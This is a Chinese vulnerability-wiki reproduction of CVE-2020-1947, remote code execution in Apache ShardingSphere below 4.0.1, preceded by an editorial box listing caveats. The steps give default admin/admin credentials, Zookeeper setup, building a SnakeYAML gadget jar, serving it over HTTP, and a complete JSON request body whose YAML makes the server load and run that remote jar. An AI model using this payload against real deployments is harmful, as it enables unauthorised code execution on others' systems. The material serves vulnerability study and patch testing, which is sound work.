







# （CVE-2020-1947）Apache ShardingSphere远程代码执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<4.0.1，能登录Sharding-UI修改schema，激活registry-center，允许加载外部JAR/JDK支持对应gadget
- 证据范围：注册中心缺失报错及dataSourceConfiguration入口具体，保留有用环境前提。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 默认admin/admin不等于所有部署无认证；标题需体现UI及权限
- Zookeeper latest未固定，privileged容器非必要配置应标实验风险
- localhost:90指目标自身，不是任意攻击者主机，应明确同机实验
- 无HTTP端点/请求头/令牌，只有JSON body；无明确修复说明
- 图片后重复路径，简介空白

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

二、漏洞影响
------------

Apache ShardingSphere \< 4.0.1

三、复现过程
------------

Sharding-UI的默认密码为admin/admin

ApacheShardingSphere远程代码执行漏洞/media/rId24.png)

顺带一提，在`conf/application.properties`中存储了WEB端的端口和账号密码。

ApacheShardingSphere远程代码执行漏洞/media/rId25.png)

### 安装Zookeeper

要想成功利用，需要先在Sharding-UI中添加一个注册中心，否则在后续利用中会提示`No activated registry center!`，所以需要搭建一个Zookeeper。
这里直接使用docker搭建Zookeeper，并且将2181端口映射出来到本地的2181端口。

    docker pull zookeeper
    docker run --privileged=true -d --name zookeeper --publish 2181:2181  -d zookeeper:latest

### 配置registry-center

在Sharding-UI的registry-center模块配置Zookeeper的地址。

ApacheShardingSphere远程代码执行漏洞/media/rId28.png)

成功连接即可。

ApacheShardingSphere远程代码执行漏洞/media/rId29.png)

### 生成payload

使用SnakeYAML反序列化小工具： https://github.com/ianxtianxt/yaml-payload
修改`src/artsploit/AwesomeScriptEngineFactory.java`文件，设置为弹出计算器。

ApacheShardingSphere远程代码执行漏洞/media/rId31.png)

编译生成jar包：

    javac src/artsploit/AwesomeScriptEngineFactory.java
    jar -cvf yaml-payload.jar -C src/ .

然后使用python本地搭建HTTPServer，等待连接。

    python -m SimpleHTTPServer 90

### 代码执行

在web端的Rule Config------\>Add Schema处加入YAML代码并提交。

ApacheShardingSphere远程代码执行漏洞/media/rId33.png)

数据包正文：

    {"name":"test","ruleConfiguration":"encryptors:\n    <encryptor-name>:\n      type: MD5\n      props:","dataSourceConfiguration":"!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://localhost:90/yaml-payload.jar\"]]]]"}

发送即可成功弹出计算器。

ApacheShardingSphere远程代码执行漏洞/media/rId34.png)
